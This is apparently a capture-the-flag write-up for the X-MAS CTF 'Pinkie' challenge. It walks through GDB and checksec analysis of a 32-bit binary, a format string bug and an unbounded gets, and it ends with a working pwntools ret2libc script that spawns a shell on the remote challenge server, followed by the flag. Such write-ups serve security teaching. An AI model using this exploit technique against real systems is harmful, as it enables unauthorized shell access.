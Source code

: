 ## exploit

In this challenge we have to exploit ELF 32 bit not stripped executable that returns 2 gifts: 
```
Here are some gifts from Santa: 0x8049940 0xf7e48da0
```

With GDB we can notice that the first address refers to a bunch of bytes in `.bss` section:

```
info symbol 0x8049940

section .bss of /home/vagrant/share/xmasCTF/Pinkie/pinkiegift.dms

gdb-peda$ x/40wx 0x8049940
0x8049940 <binsh>:	    0x00000000	0x00000000	0x00000000	0x00000000
0x8049950 <binsh+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049960 <binsh+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049970 <binsh+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049980 <binsh+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049990 <binsh+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x80499a0 <binsh+96>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Normally the `bss` section is not executable, it could be useful in order to place some shellcode but require a previous call to `mprotect` to execute that, or I could write with `gets` or other libc function some bytes and obtain all strings I need. 

The second gift is a real gift! An address to libc `system` procedure. So now i could try to search in `text` or `data` or `bss` section an `sh` strings and exploit executable without using the first gift. Moreover we can notice from the output of remote program, that ASLR is disabled, `system` is placed at the same address.


Ok now I only have to figure out where vulnerability is, with checksec we can see the following:

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

We've got no canary, and after executing program with ltrace I can notice that, after printing the gifts, it perform a gets followed by printf and another gets.

The printf output exactly what inserted with the first gets and here we have a format string vulnerability:

```
Here are some gifts from Santa: 0x8049940 0xf7de8850
%x
a7825
```
So we could for istance try to write printf GOT entry in order to call system instead of printf but I considered that: 

* No checks boundary are performed after gets is permormed
* The absence of canary permit to perform ret2libc to system passing `sh` string as argument

The exploit:

```python
#!/usr/bin/env python3
from pwn import *

r=remote('199.247.6.180', 10006)
out=r.recvuntil('\n')
print(out)
addr_system=out.split()[-1]
addr_bin_sh=out.split()[-2]
print(addr_system)
r.send(b"/////////////////////bin/sh"+b"\n")
r.send(p32(int(addr_system,16))*36+p32(0x8048f48)+b"\n")
r.interactive()

r.close()
```
##### flag: X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}




